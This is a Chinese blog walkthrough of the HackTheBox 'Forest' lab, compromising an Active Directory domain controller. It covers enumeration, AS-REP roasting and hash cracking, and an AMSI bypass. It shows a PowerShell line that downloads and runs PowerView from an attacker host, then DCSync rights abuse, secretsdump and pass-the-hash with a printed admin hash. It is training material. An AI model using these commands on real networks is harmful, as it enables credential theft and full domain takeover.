 ```yaml
---
title: Forest
date: 2021-12-24 13:52:39
tags: HackThebox
categories: 内网渗透
---
```


## 靶机信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/2913cb4eedb44306869932340084824e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 信息收集

```bash
nmap -sV -sS -Pn -A -p1-65535 10.10.10.161
```

```bash
Nmap scan report for 10.10.10.161
Host is up (0.32s latency).
Not shown: 65511 closed ports
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-10-21 11:03:55Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  unknown
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49706/tcp open  unknown
49931/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/21%OT=53%CT=1%CU=36900%PV=Y%DS=2%DC=T%G=Y%TM=617148
OS:13%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=103%TI=I%CI=I%II=I%SS=S%TS
OS:=A)SEQ(SP=104%GCD=1%ISR=104%TI=I%CI=I%TS=A)OPS(O1=M54DNW8ST11%O2=M54DNW8
OS:ST11%O3=M54DNW8NNT11%O4=M54DNW8ST11%O5=M54DNW8ST11%O6=M54DST11)WIN(W1=20
OS:00%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M5
OS:4DNW8NNS%CC=Y%Q=)ECN(R=N)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%D
OS:F=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O
OS:=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)
OS:T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%U
OS:N=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h26m49s, deviation: 4h02m32s, median: 6m47s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2021-10-21T04:05:16-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-10-21T11:05:15
|_  start_date: 2021-10-21T07:03:53

TRACEROUTE (using port 1723/tcp)
HOP RTT       ADDRESS
1   321.85 ms 10.10.14.1
2   321.83 ms 10.10.10.161

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3716.43 seconds
```

<!--more-->

我们发现可以进行匿名登录，我们尝试匿名登录SMB服务，看看有哪些有价值的信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/e568f2f0f0ef419da569481703bc97f1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
答案是没有，没有什么共享信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/9315d9655d274be9baf1173d824bbf38.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

上面信息收集时发现了ldap服务，那我们尝试使用ldapsearch工具对`namingcontexts`字段进行发掘
![在这里插入图片描述](https://img-blog.csdnimg.cn/5159dbdc249c4274ba73c56d802ba67c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们尝试更深入地挖掘DN信息，并尝试获取域中的用户列表
![在这里插入图片描述](https://img-blog.csdnimg.cn/412eb99806c84827a8d4924b17aab912.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们还可以使用`enum4linux`获取用户
![在这里插入图片描述](https://img-blog.csdnimg.cn/295e9874f8a94b21b77a12fd68e7de09.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们将搜集的信息保存为一个`anon_ldap.txt`文件，过滤出`svc-alfresco`用户的信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/323186c2631f445e8f56396ebc761eef.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们拿到账号和用户名后，我们得检查一下是否启用了预认证，这里解释一下什么是预认证

> **在请求 TGT（票证授予票证）时，第一步，请求方（用户）使用自己的 NTLM 哈希加密时间戳，并将其发送到 KDC（密钥分发中心），即域控制器。现在，如果 KDC 使用请求用户的 NTLM 哈希成功解密时间戳，KDC 将知道请求用户是有效用户。
> 可以禁用此检查（这不是默认情况）。在这种情况下，KDC 不会验证请求 TGT 的用户是否有效，而是将 TGT 发送回请求者。
> 该 TGT 包含使用请求用户的 NTLM 哈希加密的部分数据，这意味着我们可以将哈希脱机并尝试破解它。**

那我们可以使用`impacket`包中的`GetNPUsers.py`这个脚本去请求TGT，直接获取易受攻击的用户名及对应的哈希值
![在这里插入图片描述](https://img-blog.csdnimg.cn/5284eb6938a448ed9fc2c450536c9ebc.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们使用`john`来破解这个hash值，破解的明文值为`s3rvice`
![在这里插入图片描述](https://img-blog.csdnimg.cn/171d16fb086e4306aed46bcfde8464e3.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们也可以用hashcat来破解

```bash
hashcat -m 18200 -a 0 -w 3 forest.hash /usr/share/wordlists/rockyou.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/ac55b719cfc140b1ada3ab3f1ec23de1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
因为上边我们扫描到主机开放了5985端口，那证明主机开放了WinRM服务

```bash
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/391c73ad0f65465dbec84f80162fe866.png)
## 提权
我们使用Bloodhound这个工具查询是否有潜在的提权路径，首先我们得先把客户端`SharpHound.exe`上传到目标主机上，并运行它
![在这里插入图片描述](https://img-blog.csdnimg.cn/df95f275e38340aba9d52b2aa90c838e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/eaa70b145a0143d790b4d8c629a36d7f.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
为了方便我们传输，我们在本机上搭建一个SMB服务器
![在这里插入图片描述](https://img-blog.csdnimg.cn/a6dcecf002764ceb89b526cfc469f895.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后我们将压缩包复制到本机上
![在这里插入图片描述](https://img-blog.csdnimg.cn/9c2108c5892d4762af178e042896411e.png)
在攻击机上启动bloodhound，并将压缩包拖进bloodhound中
![在这里插入图片描述](https://img-blog.csdnimg.cn/0e1aedb210f74238ba29dd65d3cfb738.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后点击最后一个选项，查看可以进行哈希传递的用户
![在这里插入图片描述](https://img-blog.csdnimg.cn/7d5109e17fd740c08689be66a2ce0c35.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后再点击这个选项
![在这里插入图片描述](https://img-blog.csdnimg.cn/e417b9a4c91442eeb7e5f52dc99ec7be.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/6899426da41d42139be684f6f99e7772.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
可以看到`svc-alfresco`这个用户是属于`service account`这个组的成员，同时它也是`Privileged IT Accounts`的成员，它也是`account operators`的成员。它允许该组的成员创建和修改用户并将其添加到不受保护的组
![在这里插入图片描述](https://img-blog.csdnimg.cn/e2cdb6b465b74640a64b7ea297939ce3.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们现在点击`Shortest Paths to High Value Targets`，查看去往高权限目标的路径。该用户具有`GenericAll`的权限和`Exchange Windows`权限组。在`Exchange Windows`权限组具有`WriteDacl`在域的权限。该`WriteDacl`权限使用户能够向对象添加`DACL`（自由访问控制列表）。
![在这里插入图片描述](https://img-blog.csdnimg.cn/c6d80a75b47946b2bb2b74041117d941.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
**那就意味着：**

 **1. 我们可以将用户添加到Exchange Windows 权限组。
 2. 然后，由于 Exchange 组有WriteDacl权限，我们可以将DCSync权限授予我们创建的用户。**

>  **DCsync是几个权限的集合体，是域渗透中经常会用到的技术，如果普通用户想具有DCsync权限，可以给对象添加以下三条ACE：
>  DS-Replication-Get-Changes，对应GUID为：1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
>  DS-Replication-Get-Changes-All，对应GUID为：1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
>  DS-Replication-Get-Changes-In-Filtered-Set，对应GUID为：89e95b76-444d-4c62-991a-0facbeda640c**

## DCSync
首先我们先将用户添加到域中
![在这里插入图片描述](https://img-blog.csdnimg.cn/412def70d225418188f892346169b474.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后我们将用户添加到`Exchange Windows`权限组
![在这里插入图片描述](https://img-blog.csdnimg.cn/ead54544e07d4f67bcb1f4d5c4c973d0.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们看看菜单，我们选择`Bypass-4MSI`，`Bypass-4MSI`命令用于在导入脚本之前规避防御者。接下来，我们可以使用`Add-ObjectACL`和`john`的凭证，并给他`DCSync`权限。
![在这里插入图片描述](https://img-blog.csdnimg.cn/84b58436b0f54790bfdc7e1e5823e29a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后输入以下的powershell的代码

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11/PowerView.ps1')
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Secpassword = ConvertTo-SecureString 'password1234' -asplaintext -force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Cred = New-Object System.Management.Automation.PSCredential('HTB\pyh',$Secpassword)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity pyh -Rights DCSync
```
开启一个小型服务器
![在这里插入图片描述](https://img-blog.csdnimg.cn/37f75053912d4977b8ec82cc263da07f.png)
执行完成后，我们使用`secretdumps.py`脚本获取用户名对应的哈希值。这里我们获取到了管理员的哈希值
![在这里插入图片描述](https://img-blog.csdnimg.cn/16f9219409ec4fa78100ba391a0cf942.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那么我们只需要使用`psexec.py`脚本来进行哈希传递攻击，获取到超级管理员权限

```bash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/87f2253887984b2f8852806cd45909bb.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
